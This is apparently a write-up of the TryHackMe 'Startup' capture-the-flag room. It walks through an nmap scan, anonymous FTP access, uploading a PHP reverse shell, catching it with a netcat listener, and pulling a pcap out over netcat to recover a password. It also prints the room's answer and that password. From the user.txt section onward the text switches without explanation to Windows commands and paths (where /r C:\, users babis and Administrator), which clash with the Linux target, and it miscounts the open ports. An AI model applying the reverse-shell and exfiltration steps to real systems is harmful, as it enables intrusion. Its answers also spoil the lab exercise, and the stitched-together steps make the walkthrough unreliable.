 # Startup

🔗 [Startup](https://tryhackme.com/room/startup)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.196.181`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.196.181 startup.thm" >> /etc/hosts

mkdir thm/startup.thm
cd thm/startup.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 startup.thm
PING startup.thm (10.10.196.181) 56(84) bytes of data.
64 bytes from startup.thm (10.10.196.181): icmp_seq=1 ttl=63 time=66.4 ms
64 bytes from startup.thm (10.10.196.181): icmp_seq=2 ttl=63 time=63.9 ms
64 bytes from startup.thm (10.10.196.181): icmp_seq=3 ttl=63 time=63.4 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

### 2.1 - What is the secret spicy soup recipe?

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 startup.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 17:18 EDT
Initiating SYN Stealth Scan at 17:18
Scanning startup.thm (10.10.196.181) [65536 ports]
Discovered open port 22/tcp on 10.10.196.181
Discovered open port 21/tcp on 10.10.196.181
Discovered open port 80/tcp on 10.10.196.181
Completed SYN Stealth Scan at 17:18, 13.25s elapsed (65536 total ports)
Nmap scan report for startup.thm (10.10.196.181)
Host is up, received user-set (0.075s latency).
Scanned at 2023-07-29 17:18:18 EDT for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 21, 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p21,80 -n -Pn -vvv -sCV --min-rate 5000 startup.thm -oN nmap/open_port
```

```bash
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.80.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Unix
```

We see that port 21 has anonymous login allowed with accessible files, jump in and get files!

<figure><img src=".gitbook/assets/Schermata del 2023-07-29 23-25-35.png" alt=""><figcaption></figcaption></figure>

```
cat notice.txt
```

_Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus._

That's a pretty info, Maya can be an username!

<figure><img src=".gitbook/assets/Schermata del 2023-07-29 23-31-09.png" alt=""><figcaption><p>important.jpg</p></figcaption></figure>

Using gobuster we try to find hidden path

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 10-31-10.png" alt=""><figcaption></figcaption></figure>

The best solution is to create a .php reverse shell and put in ftp folder via FTP

We copy php-reverse-shell.php just ready from php webshells folder

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
```

and custom it using our IP and Port:

```bash
ano php-reverse-shell.php
```

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 10-51-58.png" alt=""><figcaption></figcaption></figure>

Rename it:

```bash
mv php-reverse-shell.php shell.php
```

and put in ftp folder via FTP:

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 10-54-53.png" alt=""><figcaption></figcaption></figure>

and start netcat on the same reverse shell port (444):

```bash
nc -lvnp 444
```

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 11-03-57.png" alt=""><figcaption></figcaption></figure>

Now, we're in! Check flags here..

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 11-09-08.png" alt=""><figcaption></figcaption></figure>

</div>

We see an interesting file "recipe.txt", and we find information that we need!

```bash
cat recipe.txt
```

_Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love._

{% hint style="info" %}
love
{% endhint %}

### Task 3 - What are the contents of user.txt?

We quickly try to find user.txt flag using find command:\


```bash
find / -iname 'user.txt' 2>/dev/null
```

but we don't find anything! Then we need to explore files or escalate privileges

We notes an interesting dir called: incidents, with suspicious.pcapng (wireshark ext), we try to get it, but permission is denied!

Then, we can use netcat to open a new connection and transfer it:

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 11-25-20.png" alt=""><figcaption></figcaption></figure>

We can analyze susp.pcap file using wireshark or strings:

```bash
strings susp.pcap
```

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 11-33-24.png" alt=""><figcaption></figcaption></figure>









We see this psw: c4ntg3t3n0ughsp1c3 we can try to use it!









Starting to root folder (C:\\) we can find quickly flags, using where command in recusive mode (/r):

```
where /r C:\ user.txt
C:\Users\babis\Desktop\user.txt
```

and read user.txt flag using type command (equivalent to cat on \*nix):

```
type C:\Users\babis\Desktop\user.txt
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>



</details>

### Task 4 - What are the contents of root.txt?

\


After that, we do the same thing for root.txt flag

```bash
where /r C:\ root.txt
C:\Users\Administrator\Desktop\root.txt
```

```bash
type C:\Users\Administrator\Desktop\root.txt
```

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
